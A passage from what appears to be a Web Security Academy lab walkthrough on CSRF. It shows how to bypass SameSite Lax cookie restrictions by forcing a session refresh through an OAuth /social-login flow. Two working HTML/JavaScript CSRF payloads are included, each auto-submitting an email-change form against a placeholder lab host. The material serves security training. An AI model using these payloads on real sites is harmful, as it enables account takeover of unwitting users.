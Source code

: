   ```html
  <script>
      history.pushState('', '', '/')
  </script>
  <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="foo@bar.com" />
      <input type="submit" value="Submit request" />
  </form>
  <script>
      document.forms[0].submit();
  </script>
  ```
- Store and view the exploit yourself. What happens next depends on how much time has elapsed since you logged in:

  - If it has been longer than two minutes, you will be logged in via the OAuth flow, and the attack will fail. In this case, repeat this step immediately.
  - If you logged in less than two minutes ago, the attack is successful and your email address is changed. From the Proxy > HTTP history tab, find the POST /my-account/change-email request and confirm that your session cookie was included even though this is a cross-site POST request.

**Bypass the SameSite restrictions**

- In the browser, notice that if you visit /social-login, this automatically initiates the full OAuth flow. If you still have a logged-in session with the OAuth server, this all happens without any interaction.
- From the proxy history, notice that every time you complete the OAuth flow, the target site sets a new session cookie even if you were already logged in.
- Go back to the exploit server.
- Change the JavaScript so that the attack first refreshes the victim's session by forcing their browser to visit /social-login, then submits the email change request after a short pause. The following is one possible approach:
  ```html
  <form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="pwned@web-security-academy.net">
  </form>
  <script>
      window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
      setTimeout(changeEmail, 5000);

      function changeEmail(){
          document.forms[0].submit();
      }
  </script>
  ```

- Note that we've opened the /social-login in a new window to avoid navigating away from the exploit before the change email request is sent.
- Store and view the exploit yourself. Observe that the initial request gets blocked by the browser's popup blocker.
- Observe that, after a pause, the CSRF attack is still launched. However, this is only successful if it has been less than two minutes since your cookie was set. If not, the attack fails because the popup blocker prevents the forced cookie refresh.
